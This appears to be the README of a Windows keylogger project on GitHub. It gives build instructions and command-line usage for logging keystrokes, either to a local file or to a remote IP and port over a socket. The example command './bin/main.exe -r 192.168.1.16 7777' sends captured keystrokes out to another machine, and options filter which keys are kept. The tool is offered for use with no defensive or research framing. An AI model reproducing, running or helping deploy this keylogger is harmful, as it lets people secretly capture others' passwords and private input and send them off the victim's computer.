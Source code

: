 BUILD AND RUN FOR WINDOWS ONLY

# Installation

run command make

# Dependencies

[MinGW](http://www.mingw.org) for g++ and command make

# Usage

This program propose 2 type of keylogger

## [REQUIERED] Parameters : Please, choose one of them

        -l | --local : local keylogger, store data into file on this computer, require 1 argument (destination file)
                Example : ./bin/main.exe -l D:\file.txt

        -r | --remote : remote keylogger, send data via socket, require 2 arguments (ip, port)
                Example : ./bin/main.exe -r 192.168.1.16 7777

## [OPTIONAL] Options

        -c | --no_click : don't store click keys (based on ascii)
                Example : ./bin/main.exe ... -c

        -a | --alphabet_only : Store alphabet only, A-z (based on ascii)
                Example : ./bin/main.exe ... -a

        -C | --store_character : Default storage format is int, use this option if you want to store as character
                Example : ./bin/main.exe ... -C

        -h | --help : print this help
                Example : ./bin/main.exe -h

